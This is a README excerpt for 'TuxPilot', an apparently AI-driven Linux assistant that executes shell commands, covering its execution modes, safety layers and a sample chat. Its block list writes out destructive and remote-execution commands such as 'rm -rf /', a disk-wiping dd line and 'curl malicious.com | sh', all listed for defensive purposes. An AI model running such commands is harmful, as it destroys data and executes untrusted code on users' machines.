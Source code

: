 ### **📖 Read-Only Mode**
- **What it does**: Only performs analysis, no system modifications
- **Best for**: System inspection, learning, troubleshooting analysis

## 🛡️ Safety Features

### **Multi-Layer Protection**
1. **Command Analysis** - AI analyzes every command for risks
2. **Pattern Detection** - Blocks dangerous patterns automatically
3. **Risk Assessment** - Categorizes commands by risk level
4. **Permission Checking** - Verifies you have required permissions
5. **User Approval** - Asks confirmation for risky operations
6. **Audit Logging** - Records everything for accountability

### **Dangerous Commands Blocked**
- ❌ `rm -rf /` (System destruction)
- ❌ `dd if=/dev/zero of=/dev/sda` (Disk wiping)
- ❌ `chmod -R 777 /etc` (Security violation)
- ❌ `curl malicious.com | sh` (Untrusted execution)

### **Safe Commands (Auto-executed)**
- ✅ `ls`, `cat`, `ps`, `df` (Information gathering)
- ✅ `systemctl status` (Service status)
- ✅ `pacman -Q`, `apt search` (Package queries)

## 💬 Interactive Usage

### **Starting a Chat Session**

```bash
# Supervised mode (asks before every command)
tuxpilot chat --execute-mode supervised

# Semi-autonomous mode
tuxpilot chat --execute-mode semi-auto

# Autonomous mode (for experienced users)
tuxpilot chat --execute-mode autonomous
```

### **Example Conversation**

```
$ tuxpilot chat --execute-mode supervised

🤖 TuxPilot: Hi! I'm your AI Linux assistant with command execution.
What would you like to do?

You: My system is running slow, can you help?

🤖 TuxPilot: I'll analyze your system performance and suggest optimizations.

🔍 Analyzing system performance...
📊 Found: High memory usage (87%), several unnecessary services
⚡ Optimization plan:
  1. Stop unused services (cups, bluetooth)
  2. Clear package cache
  3. Optimize swappiness setting

🔧 Command: systemctl stop cups bluetooth
⚠️  Risk Level: Medium
🎯 Expected: Free ~200MB RAM
```